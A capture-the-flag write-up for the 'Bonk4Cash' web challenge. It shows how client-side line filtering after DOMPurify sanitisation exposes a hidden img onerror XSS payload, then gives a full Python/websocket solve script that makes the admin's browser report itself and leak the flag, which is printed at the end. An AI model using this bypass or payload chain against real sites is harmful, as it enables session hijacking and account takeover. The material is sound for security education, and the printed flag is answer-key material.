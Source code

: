 ```yaml
---
ai_date: '2025-04-27 05:27:56'
ai_summary: XSS exploitation via DOM manipulation after sanitization bypass in client-side
  JavaScript
ai_tags:
- xss
- sanitization-bypass
- javascript
created: 2025-04-19T05:58
points: 493
solves: 15
tags:
- xss
title: Bonk4Cash
updated: 2025-04-20T20:27
---
```


The client JS trusts the API so much it uses `innerHTML` to display the messages.

But the API is indeed secure, DOMPurify is used.

No known vulnerabilities in DOMPurify ...wait, the client is modifying the content after sanitization.

```js
if(resp.ok){
    const log = await resp.text();
    console.log(log);
    const filtered = log.split("\n").filter(msg => msg.split("]")[0].substring(1) === person).join("\n");
    chatlogbox.innerHTML = filtered;
}else{
    chatlogbox.innerHTML = "<br />Failed to load messages"
}
  ```

Let's try to exploit this, we trick `DOMPurify` into thinking that a malicious `img` tag is actually part of a innocent `h1`'s attributes, and it really is, but after being line-filtered by the client, that wrapper `h1` disappears and our `img` payload appears.

```js
const createDOMPurify = require('dompurify');
const { JSDOM } = require('jsdom');

const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window);

const chatMessages = [
    '[name] test<h1 lang="',
    '[name2] test<img src=1 onerror=\'/*',
    '[name2] */;alert(1)\'>">hello'
];
const person = 'name2';
const log = DOMPurify.sanitize(chatMessages.join("<br>\n"));
console.log("Sanitized log:");
console.log(log);
console.log("\n")

console.log("Filtered log:");
const filtered = log.split("\n").filter(msg => msg.split("]")[0].substring(1) === person).join("\n");
console.log(filtered);
```

```
Sanitized log:
[name] test<h1 lang="<br>
[name2] test<img src=1 onerror='/*<br>
[name2] */;alert(1)'>">hello</h1>


Filtered log:
[name2] test<img src=1 onerror='/*<br>
[name2] */;alert(1)'>">hello</h1>
```

And it worked!

## solve

With a working XSS on our hands the rest is super simple.

Just XSS the admin, get the flag by making the admin report the admin, then send it in chat via the admin account like a chad.

```python
import base64
import random
import time
import requests
import asyncio
import websockets

# origin = "localhost:8000"
origin = "44.197.178.240"
target = f"http://{origin}"

name1 = "kumo"+str(random.randint(0, 1000000))
name2 = "kumo"+str(random.randint(0, 1000000))
requests.post(f"{target}/clearchat")


def reg(username):
    s = requests.Session()
    r = s.post(f"{target}/register", data={"username": username})
    r.raise_for_status()
    return s


def chatkey(s):
    r = s.post(f"{target}/chatkey")
    r.raise_for_status()
    return r.text.strip()


def report(s, name):
    r = s.post(f"{target}/report/{name}")
    r.raise_for_status()
    return r.url


def spam_messages(chatkey1, chatkey2, payload):
    payload = base64.b64encode(payload.encode()).decode()

    async def chat_client():
        uri = f"ws://{origin}/chat"
        async with websockets.connect(uri) as ws2:
            async with websockets.connect(uri) as ws1:
                await ws1.send(chatkey1)
                await ws2.send(chatkey2)
                await ws2.send(f'*/;eval(atob(`{payload}`));\'>">p2')
                await ws2.send('p1<img src=1 onerror=\'/*')
                await asyncio.sleep(0.1)
                await ws1.send('payload starts<h1 lang="')
    asyncio.run(chat_client())


print(f"[*] Registering {name1} and {name2}")
s1 = reg(name1)
s2 = reg(name2)
chatkey1 = chatkey(s1)
chatkey2 = chatkey(s2)
chatkey3 = chatkey(s2)
print(f"[*] Sending payload to chat")
spam_messages(chatkey1, chatkey2, """
fetch("/chatkey",{method:"POST"}).then(r=>r.text()).then(chatkey=>{
    fetch("/report/admin",{method:"POST"}).then(r=>{
        console.log("yay", r.url);
        let ws = new WebSocket("/chat")
        ws.onopen = (event) => {
            ws.send(chatkey);
        }
        ws.onmessage = (event) => {
            console.log(`received ${event.data}`)
            if(event.data === "successfully authorized"){
                ws.send(r.url);
            }
        }
    }).catch(e=>console.log(e));
});
""")
print("[*] Checking payload")
print(requests.get(f"{target}/transcript").text)
print(f"[*] Reporting user {name2} to activate the payload")
print(report(s1, name2))
print("[*] Checking flag")
time.sleep(5)
print(requests.get(f"{target}/transcript").text)
```

```
[admin] http://localhost/?result=UMASS%7BAdm1n_g0T_B0nk3d_EfAv4k7r3dJgTcbjmp%7D<br>
```

```flag
UMASS{Adm1n_g0T_B0nk3d_EfAv4k7r3dJgTcbjmp}
```